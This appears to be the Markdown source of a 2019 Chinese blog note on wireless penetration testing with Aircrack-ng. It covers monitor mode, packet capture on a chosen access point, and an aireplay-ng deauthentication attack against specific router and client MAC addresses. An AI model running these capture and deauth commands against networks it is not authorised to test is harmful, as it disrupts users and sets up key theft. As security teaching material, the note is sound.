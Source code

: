 ```yaml
---
title: "无线渗透笔记"
date: 2019-07-14 23:51:41
link: wireless-pentest-note
categories: 信息安全
tags:
  - Wireless
  - Kali Linux
---
```


{% noteblock quote cyan %}

使用 Aircrack-ng 套件进行无线攻击测试。

{% endnoteblock %}

<!-- more -->

## 无线监听

### 技术原理

#### 无线网卡的 4 种工作模式

- Managed：用于设备与 AP 直接连接， **无线网卡的驱动程序依赖无线 AP 管理整个通信过程。**

- Ad hoc：当你的网络由**互相直连的设备组成**时，就使用这个模式。在这个模式中，无线通信双方共同承担 WAP 的职责。

- Master：主模式，允许无线网卡使用特制的驱动程序和软件工作，作为其他设备的 WAP。

- Monitor：监听模式，停止收发数据，监听无线数据包。

### 执行步骤

#### 切换为监听模式

- 使用 Airmon-ng

  ```shell
  iwconfig
  airmon-ng start wlx70f11c280f23	# airmon-ng start wlan0
  ```

- 关闭 Network Manager

  ```shell
  service network-manager stop
  ```

- 开启 Network Manager

  ```shell
  service network-manager restart
  ```

#### 开启监听

- 使用 Airodump-ng

  ```shell
  airodump-ng wlan0mon
  ```

#### 捕获数据

- Wireshark：选择监听网卡捕获数据

- Airodump-ng

  ```shell
  airodump-ng -c 1 wlan0mon -w data	# -c信道 -w输出目录名
  ```

## WiFi Crack

### 开启监听

```shell
airmon-ng start wlan0
```

### 扫描信号

```shell
airodump-ng wlan0mon
```

### 选定 Wi-Fi 监听

```shell
airodump-ng wlan0mon -c 11 --bssid BC:46:99:3D:66:D6 -w doc # -w指定生成的文件名 -c指定信道 --bssid指定路由器的MAC地址
```

### 攻击

```shell
aireplay-ng -0 50 -a E2:A5:3E:6B:F7:21 -c 44:C3:46:40:7E:5D   wlan0mon # -0指定发包的数量 -a指定路由器的MAC地址  -c指定连接的客户端的MAC地址
```
